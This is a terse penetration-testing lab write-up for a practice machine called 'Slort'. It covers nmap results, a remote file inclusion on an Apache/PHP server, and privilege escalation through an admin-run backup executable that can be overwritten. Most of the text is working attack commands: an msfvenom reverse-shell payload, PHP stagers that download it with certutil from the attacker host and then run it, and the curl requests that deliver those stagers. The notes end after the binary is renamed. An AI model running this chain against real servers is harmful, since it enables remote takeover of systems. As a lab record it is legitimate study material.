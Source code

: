 # Slort
# date 20/08/2023
# ip 192.168.172.53

rfi in web server >> made rev.exe and php files to download and execute exe file >> a backup scheduler running as admin and it is over writable >> got admin 

# nmap
PORT     STATE SERVICE       REASON  VERSION
21/tcp   open  ftp           syn-ack FileZilla ftpd 0.9.41 beta
135/tcp  open  msrpc         syn-ack Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack
3306/tcp open  mysql?        syn-ack
4443/tcp open  http          syn-ack Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
8080/tcp open  http          syn-ack Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)


# enum 
lfi
curl http://192.168.172.53:4443/site/index.php?page=http://192.168.45.190/hi 
nc -lvnp 80

# exploitation
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.190 LPORT=4443 -f exe > reverse.exe 



step1.php

<?php 
$exec = system('certutil.exe -urlcache -split -f "http://192.168.49.68/reverse.exe" shell.exe', $val); 
?> 


step2.php

<?php 
$exec = system('shell.exe', $val); 
?> 


curl http://192.168.172.53:4443/site/index.php?page=http://192.168.45.190/step1.php
curl http://192.168.172.53:4443/site/index.php?page=http://192.168.45.190/step2.php



# priv esc
PS C:\Backup> cat info.txt

PS C:\Backup> move TFTP.EXE TFTP_old.EXE            
